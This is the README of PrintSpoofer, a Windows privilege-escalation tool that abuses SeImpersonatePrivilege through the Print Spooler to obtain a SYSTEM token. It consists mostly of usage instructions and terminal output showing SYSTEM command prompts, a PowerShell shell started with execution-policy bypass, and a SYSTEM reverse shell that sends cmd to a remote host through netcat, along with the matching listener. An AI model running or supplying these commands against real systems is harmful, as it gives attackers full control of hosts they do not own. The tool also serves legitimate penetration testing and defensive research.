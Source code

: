 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

<p align="center">
  <img src="demo.gif">
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Custom command line to execute
  -i          Interact with the new process in the current console (default is non-interactive)
  -d          Spawn a new process on the currently active desktop
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the currently active desktop
      PrintSpoofer.exe -d -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Example 1: Spawn a SYSTEM command prompt in the current console

:information_source: This command requires an __interactive__ shell.

:warning: Don't run this command through WinRM or in a pseudo-shell (e.g.: `wmiexec.py`).

```txt
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Example 2: Get a SYSTEM reverse shell

:information_source: This command can be used to create a new process and immediately exit.

```txt
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```txt
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Example 3: Spawn a SYSTEM PowerShell prompt on the active desktop

:information_source: For testing purposes, you can spawn a SYSTEM shell on your desktop. :)

:warning: Don't run this command in a terminal session (RDP).

```txt
C:\TOOLS>PrintSpoofer.exe -d -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
